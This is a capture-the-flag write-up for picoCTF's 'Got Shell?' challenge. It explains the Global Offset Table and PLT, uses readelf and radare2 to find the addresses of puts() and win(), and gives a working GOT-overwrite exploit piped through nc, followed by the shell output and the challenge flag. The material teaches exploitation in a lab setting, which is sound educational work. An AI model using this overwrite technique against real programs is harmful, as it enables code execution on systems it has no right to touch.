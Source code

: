 # Got Shell?
Can you authenticate to this [service](auth) and get the flag? Connect to it with `nc 2018shell.picoctf.com 27952`. [Source](auth.c)


## Solution
The solution to this problem involved overwriting the [Global Offset Table](https://en.wikipedia.org/wiki/Global_Offset_Table) entry for the `puts(str)` function with the `win()` function.


### Global Offset Table
The global offset table (GOT) is a map between [Position Independent Code](https://en.wikipedia.org/wiki/Position-independent_code) (usually) in shared libraries (functions such as `printf`, `puts`, etc.) to their absolute memory address. This is necessary because [shared libraries](https://en.wikipedia.org/wiki/Library_(computing)#Shared_libraries) are loaded to different memory addresses each time the program is started (due to [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)).


By looking at the relocations in the [ELF file](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) we see a list of symbols (of functions) that need to be patched at load time by the linker.

```
$ readelf --relocs auth

Relocation section '.rel.dyn' at offset 0x34c contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
 08049ffc  00000306 R_386_GLOB_DAT    00000000   __gmon_start__
 0804a030  00000905 R_386_COPY        0804a030   stdout@GLIBC_2.0

 Relocation section '.rel.plt' at offset 0x35c contains 7 entries:
  Offset     Info    Type            Sym.Value  Sym. Name
  0804a00c  00000107 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
  0804a010  00000207 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
  0804a014  00000407 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
  0804a018  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
  0804a01c  00000607 R_386_JUMP_SLOT   00000000   setvbuf@GLIBC_2.0
  0804a020  00000707 R_386_JUMP_SLOT   00000000   sprintf@GLIBC_2.0
  0804a024  00000807 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```

> The dynamic loader will examine the relocation, go and find the value of a variable and patch the `.got` entry as required. When it comes time for the code loads to load that value, it will point to the right place and everything just works; without having to modify any code values and thus destroy code sharability.
>
> This handles data, but what about function calls? The indirection used here is called a procedure linkage table or PLT. Code does not call an external function directly, but only via a PLT stub.
>
> What's actually happening with `PLT` is lazy binding — by convention when the dynamic linker loads a library, it will put an identifier and resolution function into known places in the `GOT`. Therefore, what happens is roughly this: on the first call of a function, it falls through to call the default stub, which loads the identifier and calls into the dynamic linker, which at that point has enough information to figure out "hey, this libtest.so is trying to find the function foo". It will go ahead and find it, and then patch the address into the `GOT` such that the next time the original `PLT` entry is called, it will load the actual address of the function, rather than the lookup stub. Ingenious!

The blockquote, above, comes from [this](https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html) very helpful article about `PLT` and `GOT`.


Looking at the source code, we see that we call `puts()` before and after assigning the `value` to the location pointed by `address`:

```
sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
puts(buf);

*(unsigned int *)address = value;

puts("Okay, exiting now...\n");
```

Thus, the address for `puts()` was loaded in the `GOT` and therefore we could safely overwrite it with the address of `win()` without having to worry about the lazy loading logic of the `PLT`.


But how do we discover the address of `puts()` in the `GOT`?

By executing the command below we could get the location of the global offset table. We could also get the `GOT` address using [Radare2](https://en.wikipedia.org/wiki/Radare2).

```
$ readelf --syms auth | grep "_GLOBAL_OFFSET_TABLE_"
46: 0804a000     0 OBJECT  LOCAL  DEFAULT   24 _GLOBAL_OFFSET_TABLE_
```

```
$ r2 -d auth
[0xf5ac3a20]> xp @ obj._GLOBAL_OFFSET_TABLE 
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x0804a000  149f 0408 0000 0000 0000 0000 d683 0408  ................
0x0804a010  e683 0408 f683 0408 0684 0408 1684 0408  ................
0x0804a020  2684 0408 3684 0408 0000 0000 0000 0000  &...6...........
0x0804a030  0000 0000 0000 0000 0000 0000 0000 0000  ................
[0xf5ac3a20]> Q
```

We could set a breakpoint at `puts()` in radare2 and `step` (using `ds`) forward until we find ourself at an address in the `GOT`.


```
$ r2 -d auth
[0xf70baa20]> aaa
[0xf70baa20]> s main
[0x08048564]> pdf
            ; DATA XREF from entry0 @ 0x8048467
┌ 266: int main (int argc, char **argv, char **envp);
│           ; var int32_t var_11ch @ ebp-0x11c
│           ; var int32_t var_114h @ ebp-0x114
│           ; var int32_t var_110h @ ebp-0x110
│           ; var int32_t var_10ch @ ebp-0x10c
│           ; var int32_t var_ch @ ebp-0xc
│           ; arg int32_t arg_4h @ esp+0x144
│           0x08048564      8d4c2404       lea ecx, [arg_4h]
│           0x08048568      83e4f0         and esp, 0xfffffff0
│           0x0804856b      ff71fc         push dword [ecx - 4]
│           0x0804856e      55             push ebp
...
...	# skipped a bunch here
...
│           0x0804863b      50             push eax
│           0x0804863c      e88ffdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048641      83c410         add esp, 0x10
│           0x08048644      8b85ecfeffff   mov eax, dword [var_114h]
│           0x0804864a      89c2           mov edx, eax
│           0x0804864c      8b85f0feffff   mov eax, dword [var_110h]
│           0x08048652      8902           mov dword [edx], eax
│           0x08048654      83ec0c         sub esp, 0xc
│           0x08048657      68ac870408     push str.Okay__exiting_now... ; 0x80487ac ; "Okay, exiting now...\n"
│           0x0804865c      e86ffdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048661      83c410         add esp, 0x10
│           0x08048664      83ec0c         sub esp, 0xc
│           0x08048667      6a01           push 1                      ; 1
└           0x08048669      e882fdffff     call sym.imp.exit           ; void exit(int status)
[0x08048564]> db 0x0804863c
[0x08048564]> dc
I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?
0
Okay, now what value would you like to write to 0x0
0
hit breakpoint at: 804863c
```

Once we hit the breakpoint we have to step forward until we arrive at an address that doesn't look like something in the `auth.c` code.

```
[0x0804863c]> ds
[0x080483d0]> ds
[0xf6f4a890]> xp @ obj._GLOBAL_OFFSET_TABLE 
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x0804a000  149f 0408 20e9 0df7 e0f5 0cf7 90a8 f4f6  .... ...........
0x0804a010  e683 0408 f683 0408 9031 f0f6 00b0 f4f6  .........1......
0x0804a020  3048 f3f6 306b f4f6 0000 0000 0000 0000  0H..0k..........
0x0804a030  60fd 09f7 0000 0000 0000 0000 0000 0000  `...............
```

Notice that the value at `obj._GLOBAL_OFFSET_TABLE + 0xc` is the same as the location of the instruction pointer. Therefore the address for `puts()` is at `address = 0x0804a00c`!

```
[0xf6f4a890]> xp @ obj._GLOBAL_OFFSET_TABLE + 0xc
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x0804a00c  90a8 f4f6 e683 0408 f683 0408 9031 f0f6  .............1..
0x0804a01c  00b0 f4f6 3048 f3f6 306b f4f6 0000 0000  ....0H..0k......
0x0804a02c  0000 0000 60fd 09f7 0000 0000 0000 0000  ....`...........
```

Now all that's left to do is to the figure out what value to put there. But that's easy! Using Radare2 we could quickly find out the address of the `win()` function.


```
$ r2 -d auth                                                                                                   
[0xee61aa20]> aaa
[0xee61aa20]> afl
0x08048450    1 33           entry0
0x08048400    1 6            sym.imp.__libc_start_main
0x08048490    4 43           sym.deregister_tm_clones
0x080484c0    4 53           sym.register_tm_clones
0x08048500    3 30           entry.fini0
0x08048520    4 43   -> 40   entry.init0
0x080486d0    1 2            sym.__libc_csu_fini
0x08048480    1 4            sym.__x86.get_pc_thunk.bx
0x080486d4    1 20           sym._fini
0x08048670    4 93           sym.__libc_csu_init
0x0804854b    1 25           sym.win
0x080483e0    1 6            sym.imp.system
0x08048564    1 266          main
0x08048410    1 6            sym.imp.setvbuf
0x080483d0    1 6            sym.imp.puts
0x08048430    1 6            sym.imp.__isoc99_scanf
0x08048420    1 6            sym.imp.sprintf
0x080483f0    1 6            sym.imp.exit
0x08048394    3 35           sym._init
[0xee61aa20]> Q
```

Thus the `value = 0x0804854b`!

### Exploit
Using everything we learned from the [Solution](#Solution) section, above, we could put the `address` and the `value` into a file called `exploit.in` and pipe that into the service.

```
$ cat exploit.in 
0804a00c
0804854b
```

Here is the full exploit:

```
$ (cat exploit.in ; cat) | nc 2018shell.picoctf.com 27952                                                      
I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?
Okay, now what value would you like to write to 0x804a00c
Okay, writing 0x804854b to 0x804a00c
id
uid=1221(got-shell-_0) gid=1222(got-shell-_0) groups=1222(got-shell-_0)
ls
auth
auth.c
flag.txt
xinet_startup.sh
cat flag.txt
picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_d496409a}
exit
```


The flag is `picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_d496409a}`.


### Hints
- Ever heard of the Global Offset Table?
